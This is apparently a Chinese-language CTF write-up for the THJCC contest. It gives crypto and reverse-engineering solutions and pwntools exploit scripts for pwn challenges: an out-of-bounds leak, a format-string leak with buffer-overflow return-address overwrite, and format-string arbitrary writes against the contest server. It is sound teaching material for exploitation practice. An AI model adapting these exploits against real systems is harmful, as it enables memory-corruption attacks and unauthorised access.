## 解題狀況

| 題目                      | 類別    | 難度   | 解題人數 |
| ------------------------- | ------- | ------ | --------: |
| S-box                     | Crypto  | easy   | 87       |
| Double Secure             | Crypto  | medium | 15       |
| Shuffle Hell              | Crypto  | hard   |  6       |
| Peek a char               | Pwn     | baby   | 30       |
| Infinite Recursion        | Pwn     | easy   | 16       |
| String Reverser           | Pwn     | medium |  7       |
| locked unlocker           | Reverse | baby   | 26       |
| You know I know the token | Reverse | medium | 20       |

## Crypto

### S-box

照著題目加密(編碼)的方式反過來做就好了

```python
import base64
Sbox = [
    0x63, 0x7C, 0x77, 0x7B, 0xF2, 0x6B, 0x6F, 0xC5, 0x30, 0x01, 0x67, 0x2B, 0xFE, 0xD7, 0xAB, 0x76,
    0xCA, 0x82, 0xC9, 0x7D, 0xFA, 0x59, 0x47, 0xF0, 0xAD, 0xD4, 0xA2, 0xAF, 0x9C, 0xA4, 0x72, 0xC0,
    0xB7, 0xFD, 0x93, 0x26, 0x36, 0x3F, 0xF7, 0xCC, 0x34, 0xA5, 0xE5, 0xF1, 0x71, 0xD8, 0x31, 0x15,
    0x04, 0xC7, 0x23, 0xC3, 0x18, 0x96, 0x05, 0x9A, 0x07, 0x12, 0x80, 0xE2, 0xEB, 0x27, 0xB2, 0x75,
    0x09, 0x83, 0x2C, 0x1A, 0x1B, 0x6E, 0x5A, 0xA0, 0x52, 0x3B, 0xD6, 0xB3, 0x29, 0xE3, 0x2F, 0x84,
    0x53, 0xD1, 0x00, 0xED, 0x20, 0xFC, 0xB1, 0x5B, 0x6A, 0xCB, 0xBE, 0x39, 0x4A, 0x4C, 0x58, 0xCF,
    0xD0, 0xEF, 0xAA, 0xFB, 0x43, 0x4D, 0x33, 0x85, 0x45, 0xF9, 0x02, 0x7F, 0x50, 0x3C, 0x9F, 0xA8,
    0x51, 0xA3, 0x40, 0x8F, 0x92, 0x9D, 0x38, 0xF5, 0xBC, 0xB6, 0xDA, 0x21, 0x10, 0xFF, 0xF3, 0xD2,
    0xCD, 0x0C, 0x13, 0xEC, 0x5F, 0x97, 0x44, 0x17, 0xC4, 0xA7, 0x7E, 0x3D, 0x64, 0x5D, 0x19, 0x73,
    0x60, 0x81, 0x4F, 0xDC, 0x22, 0x2A, 0x90, 0x88, 0x46, 0xEE, 0xB8, 0x14, 0xDE, 0x5E, 0x0B, 0xDB,
    0xE0, 0x32, 0x3A, 0x0A, 0x49, 0x06, 0x24, 0x5C, 0xC2, 0xD3, 0xAC, 0x62, 0x91, 0x95, 0xE4, 0x79,
    0xE7, 0xC8, 0x37, 0x6D, 0x8D, 0xD5, 0x4E, 0xA9, 0x6C, 0x56, 0xF4, 0xEA, 0x65, 0x7A, 0xAE, 0x08,
    0xBA, 0x78, 0x25, 0x2E, 0x1C, 0xA6, 0xB4, 0xC6, 0xE8, 0xDD, 0x74, 0x1F, 0x4B, 0xBD, 0x8B, 0x8A,
    0x70, 0x3E, 0xB5, 0x66, 0x48, 0x03, 0xF6, 0x0E, 0x61, 0x35, 0x57, 0xB9, 0x86, 0xC1, 0x1D, 0x9E,
    0xE1, 0xF8, 0x98, 0x11, 0x69, 0xD9, 0x8E, 0x94, 0x9B, 0x1E, 0x87, 0xE9, 0xCE, 0x55, 0x28, 0xDF,
    0x8C, 0xA1, 0x89, 0x0D, 0xBF, 0xE6, 0x42, 0x68, 0x41, 0x99, 0x2D, 0x0F, 0xB0, 0x54, 0xBB, 0x16
    ]

cipher = "b16e45b3d1042f9ae36a0033edfc966e00202f7f6a04e3f5aa7fbec7fc23b17f6a04c75033d12727"
cipher = bytes.fromhex(cipher)
cipher = bytes(Sbox.index(x) for x in cipher)
print(base64.b64decode(cipher))
```

### Double Secure

用 e1 和 e2 的最大公因數是 5，所以可以利用`共模攻擊`把密文縮小成$m^5$，接下來開五次方根就好(我這題的明文設定比較小，可以直接開)

```python
e1 = 1209025818292500404898024570102134835095
e2 = 1153929820462595439034404807036436005695
c1 = 4686969000176026668142551386405961667244859179091121048789736906319941206633368871603145429789804371517689356724283665615560419220177217061394369109032009837191125570576846003108252054213375517032484936845780176686933021970145944560459910327622173020309196808011289898102369838733513418146248658989833278092245380865500885392466881751439285395948238009780473347394659944225592468491712528382644789159487141824834194698492402509087503284719144175312666038356726647193088410263987334692755831485297259782624493401642724771270618297865273123703684979261387018227373334239613596003448973775510791973553008257272497892749
c2 = 4540297725647331934905237578525216933722595392057237387765407038665230894240204449563209528605647399587374057758620064845160826850834874467466530861889560413716585086967111655199675352965186359605631990782795548688731835329324787086713207234310139569584697775020172181261458867670514322407445943849794394018705433792059849432137048644507043691822321644399785134843330851574379509992140526187868643908531989419115511712486580846719021178555911841665639917213314488825408038260194522914413314352194951861955128509119794766550025992304177755307541355358904591704417309739263026201100425174159070619496076319761127905668
N1 = 11420597945352267246439779981835090037584588491333824626568197775824677557983731463999644894256311021271206322607582216071165117622146217906890462896203921594569439126093578932039659911878686760877479642041356645143332405857507389323442882056801119450744273463542565842985280903907124378453694724227573952940417047614706433822120334077857109663307700994132011851819444180430364772330302858685124576318444033580802013232598348692547021765596536182348708233890220359057622400728625965211209475438433527929412147434590769144689739875814457228384363203070599776289032593445885983011907135099807893621393301265616707684237
N2 = 11420597945352267246439779981835090037584588491333824626568197775824677557983731463999644894256311021271206322607582216071165117622146217906890462896203921594569439126093578932039659911878686760877479642041356645143332405857507389323442882056801119450744273463542565842985280903907124378453694724227573952940417047614706433822120334077857109663307700994132011851819444180430364772330302858685124576318444033580802013232598348692547021765596536182348708233890220359057622400728625965211209475438433527929412147434590769144689739875814457228384363203070599776289032593445885983011907135099807893621393301265616707684237
from gmpy2 import iroot
from Crypto.Util.number import *
def egcd(a : int, b : int) -> list[int, int]:
    if a % b:
        y, x = egcd(b, a % b)
        y += -x * (a // b)
        return x, y
    else:
        return 0, 1

x, y = egcd(e1, e2)

m_5 = pow(c1, x, N1) * pow(c2, y, N1) % N1
m, is_exact = iroot(m_5, 5)

print(long_to_bytes(m))
```

### Shuffle Hell


**加密的示意圖(範圍縮小到 5\*2)**

我們知道的是，每一個亂數被使用兩次，而 output 總共為奇數行
這時我們把他們全部 xor 在一起，你會發現每兩個重複的東西對消之後，只會剩下一個 flag


**示意圖**

```python
def xor(a:bytes, b:bytes)->bytes:
    return bytes([x ^ y for (x, y) in zip(a, b)])

output = open('output.txt', 'r').read().splitlines()
output = [bytes.fromhex(x) for x in output]

flag = output[0]

for cipher in output[1:]:
    flag = xor(flag, cipher)

print(flag)
```

## Reverse

### locked unlocker

把`locked-unlocker.cpython-310.pyc`丟[pylingual](https://pylingual.io/)  

然後得到原始碼  

```python
# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: locked-unlocker.py
# Bytecode version: 3.10.0rc2 (3439)
# Source timestamp: 2024-12-11 16:20:53 UTC (1733934053)

from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad, pad
from Crypto.Util.number import *
from alive_progress import alive_bar
import os
import base64

def unlocker(flag):

    def key_decryptor(ciphertext):
        c = bytes_to_long(ciphertext)
        d, n = (4603658780130581148915150220140209357434260720334171947464689689224115300059937591491927995062520871182721152309555936186188185035076128871154176204124793514488557135527608149566977491036337996020603266806593099534710926378143104232680282934708674028324260888928513479725201124908012923904062814280083965953750643748874417922582990140581447104359883546013632213300372709405906550337422870294600571797967308415692350001319846044256769035867042602480100026693980959744730774080841251147954497640746424227114619107029951275270629539250178389315031881132314376397792737912223417817283255802028819736850652480289527248653, 14685324189506833621633107811016252161507381106280877435920825902296463588222347526580992212821242654402628189774220851293950600274703541388602153608650600757314994840159301791101046669751690593584924618968298465038031150257696014704169759196495613034523586560122072909260185257877656023066467007032069256593620750388889071255396806113069316347621756002927816606636249046941467604400177054039626140807225420227261522033732114158666152651006219442012006311015952815775894832796122883380450008664854141360533664966008511126694845625115250782538509459001723387038076625393501801355685209507943320132574334321194302347333)
        m = pow(c, d, n)
        plaintext = long_to_bytes(m)
        return b'\x00' * (48 - len(plaintext)) + plaintext
    print('Starting decryption...')
    with alive_bar(256, title='Decrypting') as bar:
        for i in range(256):
            now_key = key_decryptor(flag[-256:])
            flag = flag[:-256]
            cipher = AES.new(key=now_key[:32], mode=AES.MODE_CBC, iv=now_key[32:])
            flag = cipher.decrypt(flag)
            flag = unpad(flag, 16)
            bar()
    print("Decryption complete! Saving output to 'flag.png'.")
    with open('flag.png', 'wb') as f:
        f.write(flag)
serial_number = input('Enter the serial number to unlock this product: ')
if serial_number == 'WA4Au-l10ub-18T7W-u9Yx2-Ms4Rl':
    print('Unlocking...')
    unlocker(open('flag.png.locked', 'rb').read())
else:
    print('Invalid serial number. Access denied.')
```

最後你只`要直接執行`unlocker(open('flag.png.locked', 'rb').read())就可以得到`flag.png`了  

### You know I know the token

#### 解法 1

首先你透過 ida 打開他，大概分析一下原始碼會發現，你不能生成`Administrator`的 token  
  
直接把這邊的 jnz 改成 jz  
這樣就可以在輸入 Administrator 的時候不會被擋住  
  
  

#### 解法二

你可以先假設這些複雜的加密、雜湊算法不是開發者自己寫的  
而在對稱加密、雜湊算法中會用到一些常數，而這些常數通常是固定的  
  

然後把這些常數拿去 google，你就會發現它是`sha256`  
  
直接拿去生 token  
  

## Pwn

### Peek a char

這題的關鍵在於沒有限制陣列 index 的範圍  
  

先亂戳戳，然後戳出 flag  
  

可以用 pwntool 加速這個過程  

```python
from pwn import *
from tqdm import trange

r = remote("23.146.248.230", 12343)
r.sendlineafter(b"Enter your input: ", b"hokak")

flag = b""
for i in trange(-100, 0):
    r.sendlineafter(b"Enter the index of the character you want to inspect: ", str(i).encode())
    r.recvuntil(f"The character at index {i} is '".encode())
    flag += (r.recv(1))

print(flag)
```

### Infinite Recursion

我們知道`fsb`這個函數有 format string bug  
然後`bof`有 buffer overflow  

所以這題可以透過`fsb`leak 出 return address  
再計算出`main+116`，也就是在沒有無限遞迴情況下，`rand_fun`的 return address  

  
在執行 printf 之前，`rsp+0x18`會存放著 fsb 的 return   address:`rand_fun+35`  
使用 payload:`%9$p`可以 leak 出來  

接下來計算 offset  
  
得出`main+116` = `rand_fun+35` - 0x2d9 + 0x366  

```python
from pwn import *

r = remote("23.146.248.230", 12355)
r.recvuntil(b"Try to escape haha >:)\n")

while b"fsb" not in r.recvuntil(b'> '):
    r.sendline(b"a")
r.sendline(b"%9$p")

rand_fun_addr = int(r.recv(14).decode(), 16)
payload = b"a" * 8 * 3 + p64(rand_fun_addr - 0x2d9 + 0x366)

while b"bof" not in r.recvuntil(b'> '):
    r.sendline(b"a")
r.sendline(payload)

r.interactive()
```

### String Reverser

在 format string 中，"%`x`c%`y`$hn"可以把第`y`個參數所指向的值的最低兩個 byte 改成`x`  
知道這點後，我們在可以尋找一條長得像 `A` -> `B` -> `C` 的資料，在這邊我main function 傳遞的`argv chain`  

和這條所指的`B` -> `C`  
  

假設`target`是我們欲改值的位址  

#### 寫入`0xbeef`

利用`A` -> `B` -> `C`這條把`C`改成`target`  
再利用`B` -> `C`這條把`target`的最低兩個 byte 改成`0xbeef`  

#### 寫入`0xdead`

重複剛剛的動作，但把`C`改成`target + 2`  
再寫入`0xdead`  

```python
from pwn import *
r = remote("23.146.248.230", 12321)

payload = "%{}$p".format(0x6 + 0x7)
r.sendlineafter(b"String: ", payload[::-1])
rsp = r.recv(16).decode().strip()
rsp = int(rsp, 16) - 0x25 * 0x8

print(f"rsp address: {hex(rsp)}")

target_addr = (rsp + 0xc)

# rsp + 0x38 -> rsp + 0x128 <- data

payload = '%{}c%{}$hn'.format(target_addr & 0xFFFF, 0x6 + 0x7).encode()
r.sendlineafter(b"String: ", payload[::-1])

payload = '%{}c%{}$hn'.format(0xbeef, 0x6 + 0x25).encode()
r.sendlineafter(b"String: ", payload[::-1])

payload = '%{}c%{}$hn'.format((target_addr + 2) & 0xFFFF, 0x6 + 0x7).encode()
r.sendlineafter(b"String: ", payload[::-1])

payload = '%{}c%{}$hn'.format(0xdead, 0x6 + 0x25).encode()
r.sendlineafter(b"String: ", payload[::-1])

r.interactive()
```

看不懂可以參考[這篇](https://blog.frozenkp.me/pwn/format_string/#argv1-2-bytes_1)

## 心得

這次 THJCC 在比賽之前一周，我看著有些類別還空空的就用我的題目把它填滿了  
所以你會看到很多`Author: Dr.dog`  
  

因為也時間比較急迫的關係導致難度控的比較差，也寫不出比較複雜的題目  
下次可以期待一下會有更大包的Reverse題，更花式的Pwn還有更複雜的Crypto  
預告:
> next time will be harder
